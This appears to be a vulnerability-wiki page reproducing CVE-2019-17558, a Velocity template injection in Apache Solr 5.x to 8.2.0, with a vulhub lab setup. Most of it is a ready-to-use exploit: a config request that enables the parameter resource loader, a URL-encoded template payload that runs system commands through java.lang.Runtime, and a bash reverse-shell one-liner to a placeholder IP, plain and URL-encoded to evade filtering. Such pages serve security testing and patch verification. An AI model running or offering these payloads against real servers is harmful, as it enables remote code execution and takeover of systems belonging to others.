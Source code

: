 ```yaml
---
title: Apache Solr Velocity template remote execution CVE-2019-17558
---
```


# Apache Solr Velocity template remote execution CVE-2019-17558

## Vulnerability Description
At the end of October 2019, security researcher S00pY in GitHub code released an Apache Solr Velocity template injection POC for remote command execution, and found a remote code execution vulnerability against the Apache Solr server on the network. 

## Affect Version
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Solr 5.x to 8.2.0</span>

## Environment construction
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-17558
docker-compose build
docker-compose up -d
```

Create a solr core test
```shell
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```
Visit https://xxx.xxx.xxx.xxx:8983/solr/ It's normal

## Vulnerability reappears
Get Core information after opening

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/eba902b3-616d-4c1d-b357-2ab754df6d8b.png)



Set `params.resource.loader.enabled to True`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fde10f99-354f-45bf-85ab-9abab467f8c1.png)

```shell
POST /solr/test/config HTTP/1.1
Host: 

{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

Then use POC to cause command execution

```shell
/solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x="")+%23set($rt=$x.class.forName("java.lang.Runtime"))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName("java.lang.String"))+%23set($ex=$rt.getRuntime().exec("whoami"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220307152918862.png)

Bounce hell, because some commands will be filtered and return Error 500, so rebound shell requires another rebound shell method

```
POC : /bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
```

POC requires `Urlencoding` to be encoded to bypass

```
POC ： %2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{IP}%2F{PORT}%200%3E%261
```
